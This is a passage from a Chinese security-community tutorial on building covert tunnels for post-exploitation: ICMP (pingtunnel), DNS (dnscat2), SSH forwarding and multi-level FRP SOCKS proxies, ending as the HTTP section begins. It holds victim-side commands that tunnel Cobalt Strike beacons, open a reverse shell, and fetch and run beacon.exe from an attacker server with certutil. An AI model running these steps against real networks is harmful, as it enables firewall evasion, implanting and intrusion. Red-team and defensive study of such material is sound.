




# 网络隧道：突破内网的通行证 - 先知社区

网络隧道：突破内网的通行证

- - -

## 一、前言

内网隧道（Intranet tunnel）指的是通过网络隧道的方式，将内网的服务映射到公网上，从而使得外部主机可以访问内网资源。在后渗透阶段，内网隧道的搭建可以帮助攻击者在内部网络中进行更加隐蔽和灵活的操作，从而更好地实现攻击目标。网络隧道还可以更好的帮助我们绕过内网防御、横向渗透、数据转移、隐藏攻击行为，本文简单介绍几种类型的隧道搭建。

## 二、ICMP 隧道

ICMP（Internet Control Message Protocol）Internet 控制报文协议，用于在 IP 主机、路由器之间传递控制消息。控制消息是指网络通不通、主机是否可达、路由是否可用等网络本身的消息。ICMP 通过 PING 命令访问远程计算机，建立 ICMP 隧道，将 TCP/UDP 数据封装到 ICMP 的 PING 数据包中，从而穿过防火墙，因为防火墙一般不会屏蔽 PING 数据包，实现不受限制的访问。

### 隧道搭建

ICMP 隧道搭建使用 Pingtunnel，项目地址：[https://github.com/esrrhs/pingtunnel](https://github.com/esrrhs/pingtunnel) ，Pingtunnel 把 tcp/udp/sock5 流量伪装成 icmp 流量进行转发的工具，跨平台。

1、服务端（vps）上开启 pingtunnel 服务，我们可以看到在没有客户端连接时，接收到的数据包为 0

```plain
sudo ./pingtunnel -type server -key [密钥，只限数字]
sudo ./pingtunnel -type server -key 000000
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502202651-9df77236-e8e4-1.png)

2、客户端（受害主机）开启 pingtunenl 服务，连接服务端

```plain
pingtunnel.exe -type client -l :[转发本机 2222 端口作为 ICMP 隧道通讯端口] -s [服务端 IP] -[转发类型] 1 -noprint 1 -nolog 1
pingtunnel.exe -type client -l :2222 -s 1.x.x.x -sock5 1 -noprint 1 -nolog 1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502202644-99a4012c-e8e4-1.png)

服务端接收到数据，隧道搭建成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502202721-afc201de-e8e4-1.png)

将 ICMP 流量转发为其它协议命令

```plain
# ICMP 转发为 TCP
pingtunnel.exe -type client -l :4455 -s www.yourserver.com -t www.yourserver.com:4455 -tcp 1

# ICMP 转发为 UDP
pingtunnel.exe -type client -l :4455 -s www.yourserver.com -t www.yourserver.com:4455
```

ICMP 隧道流量如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502202730-b4d124ac-e8e4-1.png)

### 利用方式

#### Pingtunnel 上线 Cobaltstrike

1、按照上面步骤，先利用 Pingtunnel 搭建 ICMP 隧道

服务端（vps）

```plain
sudo ./pingtunnel -type server -key 000000(连接密码，只限数字)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502202746-be450544-e8e4-1.png)

客户端（受害主机），这边需要将 ICMP 转发为 TCP

```plain
pingtunnel.exe -type client -l [本机 IP：ICMP 隧道端口] -s [服务端 IP_VPS] -t [服务端 IP_VPS:ICMP 隧道转发至 VPS 的端口] -tcp 1 -noprint 1 -nolog 1 -key [密钥]
pingtunnel.exe -type client -l 127.0.0.1:2222 -s 1.x.x.x -t x.x.x.x:3333 -tcp 1 -noprint 1 -nolog 1 -key 000000
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502202754-c31ff3b2-e8e4-1.png)

2、Cobaltstrike 新建两个监听，一个为转发 ICMP 的 2222 端口 host 为 127.0.0.1（这个主要用于生成本地地址的 beacon），另一个监听端口为 ICMP 流量转发到 VPS 的服务端口 3333。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502202805-c9e67ebe-e8e4-1.png)

生成 cs 马

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502202821-d3a0fae2-e8e4-1.png)

受害主机执行 beacon，由于 Cobaltstrike 马监听的端口是 2222，马儿流量通过 2222 端口，即 ICMP 隧道端口转发出去，到了服务端（VPS）上，然后 ICMP 上的流量通过 2222 转发到 3333 端口，实现间接上线。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502202829-d85ce35c-e8e4-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502202837-dd1c614c-e8e4-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502202846-e21d92f6-e8e4-1.png)

#### Pingtunel 配合 iox 代理 socks 出网

Pingtunnel 搭建完 ICMP 隧道后，通过 iox 配合代理 Socks5 出网，以达到内网穿透。

1、服务端（VPS），Pingtunnel 搭建 ICMP 隧道，这里选择不打印日志

```plain
sudo ./pingtunnel -type server -noprint 1 -nolog 1 -key 000000
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502202857-e903060a-e8e4-1.png)

2、客户端（受害主机），启动 Pingtunnel，打通 ICMP 隧道（注意 ICMP 转发方式为 TCP）

```plain
pingtunnel.exe -type client -l [本机 IP：ICMP 隧道端口] -s [服务端 IP_VPS] -t [服务端 IP_VPS:ICMP 隧道转发至 VPS 的端口] -tcp 1 -noprint 1 -nolog 1 -key [密钥]
pingtunnel.exe -type client -l 127.0.0.1:3389 -s 1.x.x.x -t 1.x.x.x:3333 -tcp 1 -noprint 1 -nolog 1 -key 000000
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502202909-f04508b4-e8e4-1.png)

3、服务端（VPS），启动 iox 服务端，接收从 3333 端口的流量转发至 4444 端口

```plain
./iox proxy -l 3333 -l 4444
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502202917-f50ab268-e8e4-1.png)

4、客户端（受害者），启动 iox 客户端，将 3389 流量转发出网，由于 3389 已建立 ICMP 隧道，所以 iox 代理的 Socks 流量将通过 ICMP 隧道出网。

```plain
iox.exe proxy -r 127.0.0.1:3389
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502202926-fa262214-e8e4-1.png)

服务端接收到信息，成功建立通讯

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502202933-fe931e56-e8e4-1.png)

5、通过 proxifier 代理 socks 流量，实现本机访问内网

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502202941-03369370-e8e5-1.png)

未进行代理时，本机无法访问内网资源

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502202953-0a381216-e8e5-1.png)

代理后，本机可访问内网资源

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203001-0edb1a34-e8e5-1.png)

## 三、DNS 隧道搭建

DNS 隧道是将其它协议的内容封装在 DNS 协议中，以 DNS 请求和响应包完成传输数据的技术。使用 DNS 隧道需要使用一个子域名来进行隧道通信，而不能直接使用主域名，因为 DNS 隧道的工作原理是将隧道数据通过 DNS 协议传输，因此需要使用一个独立的子域名来进行通信，以避免影响到主域名的解析。

### 隧道搭建

DNS 隧道搭建使用 dnscat2，项目地址 [https://github.com/iagox86/dnscat2](https://github.com/iagox86/dnscat2)

1、配置子域名解析，并开放 udp、tcp 53 端口，这边使用腾讯云进行域名配置，如何购买不再赘述，购买完域名后，直接搜索 DNS 进入 `DNS 解析 DNSPod`，对域名添加记录 A 记录以及 NS 记录。该作用是：将 NS 记录的 log.xxx.xxx 子域名下所有 DNS 解析交给 A 记录的 ns1.xxx.xxx 处理。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203009-13da1b3e-e8e5-1.png)

开放 udp、tcp 53 端口

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203016-17ad4664-e8e5-1.png)

验证域名解析设置是否成功，能正常 PING 域名，解析正常

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203025-1d79b64a-e8e5-1.png)

然后在 VPS 上使用 tcpdump 监听 udp 53 端口（ubuntu 上安装 tcpdump：sudo apt-get install tcpdump）

```plain
tcpdump -n -i eth0 udp dst port 53
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203034-22ee066c-e8e5-1.png)

使用本地电脑 nslookup NS 记录值，若 vps 上 tcpdump 返回查询信息则证明环境正常

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203041-271dde38-e8e5-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203053-2e010b62-e8e5-1.png)

3、服务端配置 dnscat2 这边使用公网 ubuntu 作为服务端，注意：使用前查看系统是否有程序占用 TCP 和 UDP 的 53 端口，若有，需要先暂停该程序，Ubuntu 上 systemd-resolved 会占用 53 端口，以下命令能暂停服务

```plain
service systemd-resolved stop           # 停止 systemd-resolved 服务
systemctl disable systemd-resolved      # 设置开机不启动
```

安装 dnscat2

```plain
git clone https://github.com/iagox86/dnscat2
cd dnscat2/server
apt install gem ruby-dev libpq-dev
gem install bundler
bundle config mirror.https://rubygems.org https://mirrors.tuna.tsinghua.edu.cn/rubygems
bundle install
```

服务端（vps），启动 dnscat2 服务

```plain
cd dnscat2/server
sudo ruby dnscat2.rb [NS 上机记录。域名] -c [密钥]
sudo ruby dnscat2.rb log.xxx.xxx -c 000000
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203105-351e2a74-e8e5-1.png)

4、配置客户端，二进制文件下载地址：[https://downloads.skullsecurity.org/dnscat2/](https://downloads.skullsecurity.org/dnscat2/) ，客户端（受害主机）启动 dnscat2 服务

```plain
dnscat2-v0.07-client-win32.exe --secret=[密钥] [NS 记录值] --delay 5000
dnscat2-v0.07-client-win32.exe --secret=000000 log.xxx.xxx --delay 5000
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203114-3a9e0636-e8e5-1.png)

5、查看服务端，返回一个 session 类似 msf 一般

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203121-3ed8ca1a-e8e5-1.png)

使用 `session -i 1` 或者 `window -i 1` 进入 shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203133-46116260-e8e5-1.png)

执行 `shell` 命令，获取受害者主机反弹 `shell`

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203141-4a7323de-e8e5-1.png)

执行 session -i 2 进入反弹 shell 终端

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203147-4e61778e-e8e5-1.png)

DNS 隧道流量如下，中继模式没有 dnscat 关键字，但会暴露域名信息。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203156-53c2721e-e8e5-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203207-59f95ddc-e8e5-1.png)

### 利用方式

#### dnscat2 上线 Cobastrike

1、cobastrike 启动监听

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203221-62267134-e8e5-1.png)

2、服务端（VPS），启动服务

```plain
sudo ruby ./dnscat2.rb [NS 上机记录。域名] -e open -c 000000 --no-cache
sudo ruby ./dnscat2.rb log.xxx.xxx -e open -c 000000 --no-cache
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203228-66824b22-e8e5-1.png)

3、客户端（受害者），启动服务

```plain
dnscat2-v0.07-client-win32.exe --secret=000000 log.xxx.xxx --delay 5000
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203236-6b9fa898-e8e5-1.png)

4、远程下载 beacon 执行上线

服务器利用 python 启临时 web 服务

```plain
python3 -m http.server 4444
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203247-721bcd1e-e8e5-1.png)

服务端进入 shell，通过 certutil.exe 远程下载 beacon 上线主机

```plain
certutil.exe -urlcache -split -f http://x.x.x.x:4444/beacon.exe C:\Users\Public\beacon.exe
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203257-77e7ead4-e8e5-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203310-7fa45596-e8e5-1.png)

执行 beacon.exe 实现上线

```plain
C:\Users\Public\beacon.exe
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203345-945b9bde-e8e5-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203350-97798b96-e8e5-1.png)

## 四、SSH 隧道

SSH 隧道（SSH Tunnel）是通过 SSH 协议建立的安全网络通道，可以将本地计算机和远程服务器之间的通信流量加密传输，用于传输不安全的协议或访问受限资源，除此之外还可以用来绕过防火墙限制，帮助用户绕过网络访问。

### 隧道搭建

| 主机  | 环境  |
| --- | --- |
| 192.168.11.137 | 攻击机 |
| 192.168.11.128、192.168.20.100 | 受害者（双网卡） |
| 192.168.20.200 | 内网主机 |

攻击机 192.168.11.137，模拟公网 VPS

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203358-9c36095c-e8e5-1.png)

受害者，双网卡

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203405-a06c98f6-e8e5-1.png)

内网主机

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203413-a55afe48-e8e5-1.png)

1、前期环境配置，攻击机上开启 ssh 转发功能，将 GatewayPorts no 改成 yes 并且把前面注释去掉，改为如下图

```plain
vi /etc/ssh/sshd_config
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203422-aad8bc3e-e8e5-1.png)

重启 ssh 服务

```plain
systemctl restart sshd.service
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203428-ae50dc70-e8e5-1.png)

#### 本地端口转发

SSH 本地端口转发（Local Port Forwarding）将本地计算机上的端口映射到远程计算机上的技术。

1、跳板机（双网卡主机）,修改 ssh 配置文件 `vim /etc/ssh/sshd_config`，配置如下

```plain
AllowTcpForwarding yes          # 允许转发 TCP 协议
GatewayPorts yes                # 允许远程主机连接本地转发端口
PermitRootLogin yes             # 允许 root 登录
TCPKeepAlive yes                # 保持心跳，防止 ssh 断开
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203437-b33df45c-e8e5-1.png)

修改完成，重启 ssh 服务

```plain
systemctl restart sshd.service
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203443-b71b9ae8-e8e5-1.png)

2、攻击机（VPS）192.168.11.137 与 受害主机 192.168.11.128（web 服务端）建立隧道。使用 ssh 连接到 ip 地址为 192.168.11.128 的主机，使用 funsiooo 用户身份登录，并在本地计算机上创建一个 8888 端口转发，将本地端口 8888 连接到内网的 192.168.20.200 的 22 端口上，实现 ssh 隧道访问隔离网段的内网主机

```plain
ssh -CfNg -L [本机端口]:[隧道访问的内网主机]:[隧道访问的内网主机端口] [双网卡跳板机 SSH 连接命令]
ssh -CfNg -L 8888:192.168.20.200:22 funsiooo@192.168.11.128
```

> -   `-C`: 启用压缩功能，可以减少数据传输量。
> -   `-f`: 在后台运行 SSH 客户端。
> -   `-N`: 不执行任何命令，只进行端口转发。
> -   `-g`: 允许远程主机通过转发端口连接本地计算机。
> -   `-L`: 指定本地端口转发规则，格式为`本地端口:目标地址:目标端口`

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203453-bd1b9722-e8e5-1.png)

查看端口 8888 的占用情况，处于监听状态，正常工作状态

```plain
netstat -tulnp | grep 8888
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203458-c00079ee-e8e5-1.png)

3、通过本机连接内网 192.168.20.200 主机，因为 ssh 隧道已搭建，所以当我们 ssh 本机的 8888 端口时，ssh 隧道会将 8888 端口的流量通过跳板机 192.168.11.128 中的 192.168.20.100 网卡访问 192.168.20.200 的 22 端口，实现跨网段访问，注意这次的 ssh 密钥为 192.168.20.200 主机的 ssh 密码（当内网主机为 windows 时，22 端口可变为 3389，在知道密码的情况下可跨网段远程连接 windows）

```plain
ssh -p 8888 root@127.0.0.1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203510-c74c051a-e8e5-1.png)

隧道流量如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203517-cb751ee2-e8e5-1.png)

#### 远程端口转发

SSH 远程端口转发（Remote Port Forwarding）将远程计算机上的端口映射到本地计算机上的端口的技术。

1、跳板机（双网卡）上执行命令，利用 ssh 建立隧道，将 192.168.20.200 的 22 端口流量转发至攻击者主机 192.168.11.137 的 2222 端口上，隧道建立后，可通过攻击者主机的 2222 端口访问隔离网段 192.168.20.200 的 22 端口，实现跨网段访问。注意此处的 ssh 密码为攻击者 192.168.11.137 主机的 ssh 密码。

```plain
ssh -R [远程主机端口]: [目标主机]: [目标主机端口] [攻击者主机]
ssh -R 2222:192.168.20.200:22  root@192.168.11.137
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203525-d004f130-e8e5-1.png)

攻击者主机 2222 端口正在监听

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203531-d36c926a-e8e5-1.png)

2、攻击机上访问内网主机

```plain
ssh -p 2222 root@127.0.0.1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203537-d788209e-e8e5-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203542-da74f0ca-e8e5-1.png)

隧道流量如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203548-dd93e086-e8e5-1.png)

#### 动态转发

SSH 动态转发（Dynamic Port Forwarding），也称为 SOCKS 代理，在本地计算机上设置一个 SOCKS 代理，通过 SSH 隧道将网络流量转发到远程服务器上，实现突破边界，访问内部网络资源，类似 frp socks 代理。

1、服务端（VPS），ssh 开启转发功能，将 GatewayPorts no 改成 yes 并且把前面注释去掉

```plain
vim /etc/ssh/sshd_config
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203555-e2333272-e8e5-1.png)

重启 ssh 服务

```plain
systemctl restart sshd.service
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203601-e57869f2-e8e5-1.png)

2、客户端（受害者），通过 ssh 开启本地代理 135 端口（端口任意），然后输入本地 ssh 密码，进行监听

```plain
ssh -qTfnN -D 0.0.0.0:135 funsiooo@localhost
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203609-ea14db1c-e8e5-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203619-f042c0e4-e8e5-1.png)

利用 ssh 远程转发到公网的服务端（VPS）的 2222 端口，此时输入的密码是服务端（VPS）的 ssh 密码

```plain
ssh -qTfnN -R 0.0.0.0:2222:0.0.0.0:135 root@公网 vps
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203627-f52ac818-e8e5-1.png)

服务端（VPS）2222 端口已正在监听中

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203633-f89be9c8-e8e5-1.png)

3、本机利用 Proxifier 连接 Socks

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203639-fc5cc3fc-e8e5-1.png)

本机代理 socks5 后可直接访问隔离网段 192.168.20.200 的 web 服务

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203645-00000a82-e8e6-1.png)

隧道流量如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203651-03445fea-e8e6-1.png)

## 五、Socks 隧道

SOCKS（Socket Secure）是一种网络协议，它允许客户端通过一个代理服务器访问互联网。与 HTTP 代理不同，SOCKS 代理可以支持任何类型的网络流量，包括 TCP 和 UDP 流量。SOCKS 协议有多个版本，其中 SOCKS5 是最新的版本，它支持加密认证和数据加密等功能。当客户端使用 SOCKS 代理时，它会向代理服务器发送一个连接请求，请求连接到目标服务器。代理服务器会建立与目标服务器之间的连接，并将数据转发给客户端。客户端可以在本地计算机上运行，也可以在另一个网络中运行，例如内网中的计算机。使用 SOCKS 代理可以绕过某些网络限制，也可以保护用户的隐私，因为代理服务器可以隐藏客户端的真实 IP 地址。

### 隧道搭建

Socks 隧道搭建使用 FRP + proxifier 实现，frp 项目地址：[https://github.com/fatedier/frp](https://github.com/fatedier/frp) ,搭建过程中使用到的端口需要在防火墙开放，需要注意不同系统需下载不同版本，如攻击机（服务端）为 linux 则需要下载 linux 版本，受害者（客户端）为 windwos 则需要下载 windwos 版本，以下配置直接复制到 frps.ini、frpc.ini 文件运行即可，运行后使用 socks5 代理工具 proxifier 即可进行流量代理。

1、配置文件如下（根据自身需求进行修改）

服务端-frps.ini

```plain
[common]
bind_addr = 0.0.0.0        # 绑定的 ip，为本机
bind_port = 7000           # 绑定的端口
dashboard_addr = 0.0.0.0   # 管理地址
dashboard_port = 7500      # web 管理端口
dashboard_user = root      # web 管理的用户名
dashboard_pwd  = root      # web 管理用户的密码
token = 1q2w3e             # 客户端服务端连接的密码，客户端也需要配置相同的 token
heartbeat_timeout = 90     # 心跳超时时间
max_pool_count = 5         # 最大同时连接数
```

客户端 - 配置 frpc.ini

```plain
[common]
tls_enable = true
server_addr = x.x.x.x               # 服务端 IP（根据自己实际 VPS IP 填写）
server_port = 7000                  # 服务端监听的端口
token = 1q2w3e                      # 与服务端的 token 一致才能成功验证
pool_count = 5                      # 最大连接数
protocol = tcp
health_check_type = tcp
health_check_interval_s = 100
[test]                              # 代理名称，可自行修改
remote_port = 40000                 # 代理的端口，连接 proxifier 时需要用
plugin = socks5                     # 使用的协议
use_encryption = true               # 是否加密
use_compression = true
```

3、使用方法

配置完服务端与客户端的配置文件后，服务端启动服务

```plain
./frps -c frps.ini 

# 挂在后台运行命令
nohup ./frps -c frps.ini >/dev/null 2>&1 &
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203659-086dcce0-e8e6-1.png)

客户端启动服务，进行连接

```plain
frpc.exe -c frpc.ini

# 后台运行命令
nohup ./frpc -c frpc.ini >/dev/null 2>&1 &
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203705-0bc1bd8e-e8e6-1.png)

利用 proxifier 进行连接  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203711-0f27306c-e8e6-1.png)

访问内网资源，实现突破网络边界

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203716-12665866-e8e6-1.png)

隧道流量如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203722-15b86a90-e8e6-1.png)

#### 利用方式

##### frp 多级代理

通过跳板机 -1 将流量代理到服务器（vps）上搭建第一层 frp 代理，获取 192.168.20.200 主机。然后通过 192.168.20.200 搭建第二层代理访问 10.10.20.30 的网络资源。

跳板机 -1

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203733-1c9fa4b8-e8e6-1.png)

跳板机 -2

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203740-208c3794-e8e6-1.png)

需要访问的多层网络内网主机

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203746-23f00370-e8e6-1.png)

1、第一层代理搭建

服务端（vps）frps.ini 配置文件

```plain
[common]
bind_addr = 0.0.0.0
bind_port = 2222
```

客户端（受害者主机 192.168.11.128）frpc.ini 配置文件

```plain
[common]
server_addr = x.x.x.x
server_port = 2222

[http_proxy]
type = tcp
local_ip = 192.168.20.100
remote_port = 3333。
local_port 3333
plugin = socks5
```

启动服务端

```plain
./frps -c frps.ini
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203754-28a2eafe-e8e6-1.png)

启动客户端

```plain
./frpc -c frpc.ini
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203759-2ba8beae-e8e6-1.png)

本机 proxifier 连接 隧道

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203805-2f72f22a-e8e6-1.png)

能访问受害主机的另一网卡 192.168.20.100 的内网资源

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203811-334c1df4-e8e6-1.png)

2、第二层网络搭建

搭建第二层网络时，跳板机 -1 既是 frp 的服务端，也是客户端，指向的 IP 不一样，具体请观察配置文件差异

192.168.11.128 上启动 frps 配置文件如下（注意，此前的 frpc 服务不要关闭）

```plain
[common]
bind_addr = 192.168.20.100
bind_port = 2222
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203818-37082ce4-e8e6-1.png)

因为这里是假设已经获取了跳板机 -2，192.168.20.200 的主机权限，这里启动 frpc，配置文件如下

```plain
[common]
server_addr = 192.168.20.100
server_port = 2222

[web]
type = tcp
local_ip = 192.168.20.200
local_port = 3333
remote_port = 3333
plugin = socks5
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203824-3aeb796a-e8e6-1.png)

3、当 frp 全部服务都开启后，通过 proxifier 设置代理链，然后就可以在本机上访问第二层内网资源了，Proxifier 设置解释为，我们网络首先通过第一层 VPS 的代理网络，然后通过设置 192.168.20.100 的代理进入第二层网络，从而实现多级代理。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203831-3f21d51a-e8e6-1.png)

设置代理链后，可在本机访问第二层的内网资源（下图为 10.10.20.30 下 web 服务图片，假装 weblogic）

[](https://xzfile.aliyuncs.com/media/upload/picture/20230502203837-42952ab2-e8e6-1.png)

> 注意，frp 配置文件的端口，需要防火墙开放才能搭建成功，具体端口，根据实际情况设置。

## 六、HTTP 隧道

HTTP 隧道是一种使用 HTTP 协议进行数据传输的技术，它可以将内网中的服务映射到公网地址上，实现内网穿透的功能。

### 隧道搭建

HTTP 隧道搭建使用 Neo-reGeorg，项目地址 [https://github.com/L-codes/Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg)

攻击机，不可通内网

